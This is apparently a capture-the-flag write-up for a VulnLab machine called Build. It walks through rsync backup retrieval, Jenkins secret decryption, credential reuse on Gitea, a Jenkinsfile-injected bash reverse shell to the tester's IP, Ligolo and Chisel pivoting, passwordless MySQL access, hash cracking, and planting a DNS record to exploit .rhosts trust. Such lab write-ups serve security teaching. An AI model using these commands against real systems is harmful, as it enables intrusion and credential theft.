


## Port Scanning

An initial Rustscan reveals the following initial ports to be open:

```bash
rustscan -a build.vl --ulimit 5000 --
```


A few interesting ports appear including SSH, RServices (512,513,514) and port 3000. To gather more information, a detailed Nmap can be ran against the server:


This provides more information including:

- OpenSSH version 8.9p1 running for SSH
- PowerDNS
- All the Rservices mentioned above (rexec, rlogin, rshell, rsync)
- A potential Gitea service running on port 3000 as indicated by the "i_like_gitea" cookie

As a precaution, running an Nmap scan across all ports does produce some interesting `filtered` ports:


This tells us that these ports may only be open internally or may just be a false positive.

## RServices Enumeration

Attempting to login via the `rlogin` service proves unsuccessful without providing a correct password or username:


Attempting to access rshell also proves unsuccessful:


>[!info]
>This is because both of these services base authentication off the use of a `.rhosts` file.

However, Rsync provides some more information. Attempting to connect to port 873 with Netcat results in a banner being returned:

```bash
nc -vn 10.10.75.188 873
```


With Rsync confirmed to be open and operating, any available directories can be attempted to be enumerated via the following `rsync` command:

```bash
rsytnc 10.10.75.188::
```


### RSync - Backups Share

Since a share name is returned of `backups`, the contents may be available for download by using the following `rsync` command:

```bash
rsync -av --list-only rsync://10.10.75.188/backups
```


The share includes a Jenkins archive file which could contain useful information and potential hardcoded credentials. The file can be downloaded and analysed further via:

```bash
rsync -av rsync://10.10.75.188/backups .
```

>[!warning]
>This will take a relatively long time as the file size is very large!
## Jenkins File Analysis

After extracting via the `tar -xvf jenkins.tar.gz` command, a `jenkins_configuration` directory is created, containing a ton of files:


Initially, there appears to be a secret key:


There is also a master key under the `secrets` directory:


An interesting file - `Jenkinsfile` - appears to contain a shell command being executed:


As a quicker way to search, XML files may contain sensitive info so a one-liner can be executed to spit out all XML file locations:

```bash
find . -type f -name "*.xml" | sed 's|/[^/]*$||' | sort -u | while read dir; do echo -e "\n\033[1;34m$dir\033[0m"; find "$dir" -maxdepth 1 -type f -name "*.xml" | GREP_COLORS='mt=1;32' grep --color=always '.'; done]]"
```


Looking through, there is a config.xml in the base directory which appears to contain no useful information to us right now, but does include the workspace and build directories:


Searching for more "config.xml" files reveals a config file within the `jobs/build` directory as well as an interesting file in the `users` directory:


Looking into the config file found for the admin user reveals a username, ID and potential password hash:


It appears to be a bcrypt password hash, but does not appear to be crackable yet. Further research indicates that Jenkins passwords are crackable and may need various keys and secrets:


### Jenkins Password Decryption

Attempting to run the script with the following inputs:

```bash
./jenkins-decryptor -m [MASTER.KEY] -s [HUDSON-SECRET] -c [CONFIG XML] -o json
```


It appears nothing is returned for the admin user. However, looking at the other config.xml files under the `jobs/build` directory results in another hash for the `buildadm`:


Running the decrypt script on this file results in some credentials appearing:


## Gitea Enumeration

With valid Jenkins file, there may be password reuse across multiple services. For instance, the Gitea application running on port 3000. Attempting to use the credentials for the `buildadm` user works and login is successful:


Checking the `dev` repository, there is a Jenkins file inside which contains the same content seen earlier:


Looking further at the repository and its settings reveals a webhook in place that targets an internal Docker IP address (172.18.0.3) with the endpoint of /gitea-webook/post:


## Reverse Shell

Since we own the repository and can make changes to the Jenkins file, we can modify the command being executed to initiate a reverse shell connection back to us via BASH:

```bash
bash -c 'bash -i >& /dev/tcp/10.8.4.237/8080 0>&1'
```


Before saving the changes and executing, a listener must be started. I like using the Penelope shell manager found here which can be run via:

```bash
python penelope.py --port 4444 -i tun0
```

After making the changes and listening for a minute, a reverse shell comes through:


## Post-Exploitation Enumeration

Immediately, it appears we are the root user on a Docker machine which can be confirmed via the presence of the `.dockerenv` file and the randomised hostname:


Enumerating the root user's home folder, there is a .rhosts file that contains two entries:


To understand, each line in the .rhosts file follows the format of hostname and then users (or `+`). The `+` wildcard means any user from the specified host is trusted. In this case, any user from the host admin.build.vl or intern.build.vl is allowed to log in to this machine.

To check for any additional interfaces inside a Docker container, the forwarding information base (FIB) can be viewed via:

```bash
cat /proc/net/fib_trie
```


With networking knowledge, we can work out that the gateway for the Docker network is 172.18.0.1 (first host) and hosts/end devices would start from 172.18.0.2. Looking back at the Nmap, there were 2 ports that were filtered:

- Port 3306
- Port 8081

Using cURL, the potential ports could be probed on the Docker network to see if anything is returned:

```bash
curl -I http://172.18.0.1:8081
```


It appears these ports are open on the 172.18.0.1 machine and can be accessed from here.
## Pivoting w/ Ligolo

TO gain access to the internal network, there are various ways, but Ligolo-ng is my preferred method. First, transfer the agent binary over to the victim machine (easy with Penelope):

```bash
upload /home/zeus/Tools/Ligolo-Agent/agent
```


After uploading the binary, the network should be set up on the attacker machine by adding network interfaces for Ligolo:

```bash
sudo ip tuntap add user zeus mode tun ligolo
sudo ip link set ligolo up
```


Once the network is set up, start Ligolo with the `-selfcert` option:

```bash
./proxy -selfcert
```


On the victim/compromised machine, we can connect back to our machine on port 11601 and tell it to ignore the self signed certificate:

```bash
./agent -connect 10.8.4.237:11601 -ignore-cert
```


A new session will appear in Ligolo which can be connected to by running the `session` command and hitting Enter:


Within the session, network information can be grabbed via the `ifconfig` command:


The network config tells us that there is a 172.18.0.0/16 network running. With this, it can be added as a route by going through the Ligolo network interface:

```bash
sudo ip route add 172.18.0.0/16 dev ligolo
```



Finally, run `start` inside the Ligolo session to start the tunnel to the victim machine and gain access to the internal network:


Now, internal devices such as 172.18.0.1 should be reachable which can be tested by running Nmap against 172.18.0.1:


## Port 8081 Site

Above, it appears the two ports that were initially filtered (3306, 8081) are now open since we have access to the internal IP. Navigating to the 172.18.0.1:8081 web server running prompts for authentication:


However, attempting to reuse the `buildadm` user credentials fails and we have no other credentials at this moment.

## Chisel Alternative

While trying to connect to the MySQL port after setting up Ligolo-ng, it would time out upon connection to the database. Further research within the VulnLab discovered that other people appeared to have this issue as well.

Since Ligolo was not working, Chisel was set up instead by first transferring the file over using the `upload` command from Penelope:

```bash
upload /home/zeus/Tools/Chisel/chisel
```


The chisel server was then set up on the attacker machine, listening on port 9000:

```bash
./chisel server --port 9000 --reverse
```


With the server set up, the victim machine can connect back via the following. This opens a reverse port on the server (9050) and sets up a SOCKS5 proxy at that port:

```bash
./chisel client 10.8.4.237:9000 R:9050:socks
```


To use port 9050 as a socks5 proxy, modify the `/etc/proxychains4.conf` file and add the following line at the end to set the proxy to localhost port 9050:


## MySQL Database

With the MySQL port now accessible to us, it may be susceptible to passwordless authentication:

```bash
proxychains -q mysql -h 172.18.0.1 -u root
```


An error appears telling us that SSL is required but the server doesn't support it. To get around this error, the `--skip-ssl` option can be used to connect:

```bash
proxychains -q mysql -h 172.18.0.1 -u root --skip-ssl
```


The database allows us to connect without providing a password for the root user. Once connected the databases can be listed out via the `show databases` syntax:


There are a few default databases, but one of particular interest to us is the `powerdnsadmin` database. The database can be selected and the tables can be dumped via the `show tables` command:


Again, there are many interesting tables including account, domain_apikey, records and so on but user may contain valid password hashes for users. Selecting all the information from the user table reveals just that - a password for the `admin` user:


However, before cracking, it's always a good idea to look through for any additional juicy information. For example, the `domain` table reveals to us the name of `build.vl` which could be useful later on:


Additionally, the records table appears to dump out all the DNS records, including all the `A` records currently present and their associated internal IP addresses within the 172.18.0.0/16 network:


## Internal Network Enumeration

With a new list of internal IPs, a ping sweep scan can be done to see if any of these hosts are alive within the network:

```bash
proxychains -q nmap -sn 172.18.0.1-6
```


All the hosts appear to be up and running. With this, a default Nmap scan can be ran against each host for any additional ports that may be open and useful to us. For the `172.18.0.1` host, the ports are the same as what was seen before:


For `172.18.0.2`, only SSH and port 3000 (Gitea) were open which we have already looked at - specifically the Gitea instance:


The `172.18.0.3` host had port 8080 and 50000 open which do not appear interesting to us at this time, but could be something to look at later if nothing else is found:


`172.18.0.4` only had the MySQL port open which we already grabbed the PowerDNS admin hash from:


The `172.18.0.5` host contained port 53 for DNS and the same 8081 port seen earlier with the basic authentication popup:


Finally, the last host of `172.18.0.6` contained port 80 opened which is interesting as we had not seen port 80 open before, indicating a potential new site to exploit:



### Jenkins Instance

Looking further into some of the open ports, the `172.18.0.3` host was operating the Jenkins instance on port 8080 which contained the same `dev` repository/name seen in the Gitea instance:


Checking the contents, we can see that the changes made to this were when we updated the Jenkinsfile within the Github repository to initially gain access to the machine:


### Port 8081

The `172.18.0.5` IP contained an open port on 8081 which contains the same HTTP basic authentication popup seem earlier:


### PowerDNS Site

More interestingly, the last host `172.18.0.6` was operating a PowerDNS site, containing the initial login page for PowerDNS-Admin:


With this in mind and the admin password hash found earlier, the hash could potentially be cracked by running Hashcat against it. After a few minutes, a cleartext password appears and we have cracked the hash:


With the password, we can login to PowerDNS and gain full access to the admin account inside. Looking around at the dashboard, there is one entry for the `build.vl` domain:


Checking the zone records, the same A records seen within the MySQL database earlier appear here with entries for subdomains such as gitea, intern, and jenkins:


#### Malicious DNS Record

Remember back to the initial enumeration, there was a `.rhosts` file containing two entries:

- admin.build.vl
- intern.build.vl

In PowerDNS, there is an A record for the intern record but no record is present for the `admin` subdomain. With this in mind and knowledge of how `.rhosts` work, a new DNS entry can be added that points the `admin.build.vl` record towards our attacker machine IP and save the changes:


Since our machine is now `admin.build.vl` in PowerDNS, the `.rhosts` file entries will allow us to remote into the machine as it sees us as the `admin.build.vl` machine:


